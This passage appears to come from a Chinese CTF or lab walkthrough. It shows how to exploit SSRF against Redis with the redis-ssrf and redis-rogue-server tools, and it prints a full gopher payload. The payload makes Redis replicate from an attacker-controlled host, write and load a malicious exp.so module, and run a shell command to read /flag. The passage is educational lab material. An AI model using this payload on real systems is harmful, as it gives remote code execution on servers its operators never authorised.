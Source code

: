   https://github.com/xmsec/redis-ssrf

6. 另开一个浏览器，并申请一个小号，在basic的Linux lab中开启一个环境，如下，分配的端口为28396。

   然后我们利用xshell登录到该Linuxlab服务端，用户名为root，密码为123456。

<img src="../images/image-20210120145403136.png" alt="image-20210120145403136" width="33%;" />

7. 再利用xftp，同样登录该服务端，并上传前面下的两个工具，并将redis-rogue-server-master中的exp.so复制到redis-ssrf-master中。

   ![image-20210120145952017](../images/image-20210120145952017.png)

   然后需要修改ssrf-redis.py文件，将其中的ip和端口改为linuxLab对应的ip地址。

   <img src="../images/image-20210120150354226.png" alt="image-20210120150354226" width="50%;" />

   ![image-20210120150412426](../images/image-20210120150412426.png)

   <img src="../images/image-20210120152220846.png" alt="image-20210120152220846" width="50%;" />

8. `python ssrf-redis.py`，生成payload。

   该脚本默认mode=3，即直接生成redis的rce。

   生成的payload为：

   ```html
   gopher://0.0.0.0:6379/_%2A2%0D%0A%244%0D%0AAUTH%0D%0A%244%0D%0Aroot%0D%0A%2A3%0D%0A%247%0D%0ASLAVEOF%0D%0A%2414%0D%0A172.16.163.170%0D%0A%244%0D%0A6666%0D%0A%2A4%0D%0A%246%0D%0ACONFIG%0D%0A%243%0D%0ASET%0D%0A%243%0D%0Adir%0D%0A%245%0D%0A/tmp/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%246%0D%0Aexp.so%0D%0A%2A3%0D%0A%246%0D%0AMODULE%0D%0A%244%0D%0ALOAD%0D%0A%2411%0D%0A/tmp/exp.so%0D%0A%2A2%0D%0A%2411%0D%0Asystem.exec%0D%0A%2414%0D%0Acat%24%7BIFS%7D/flag%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
   ```

   将该payload解码之后如下：

   ```shell
   gopher://0.0.0.0:6379/_*2
   $4
   AUTH
   $4
   root
   *3
   $7
   SLAVEOF
   $14
   172.16.163.170
   $4
   6666
   *4
   $6
   CONFIG
   $3
   SET
   $3
   dir
   $5
   /tmp/
   *4
   $6
   config
   $3
   set
   $10
   dbfilename
   $6
   exp.so
   ```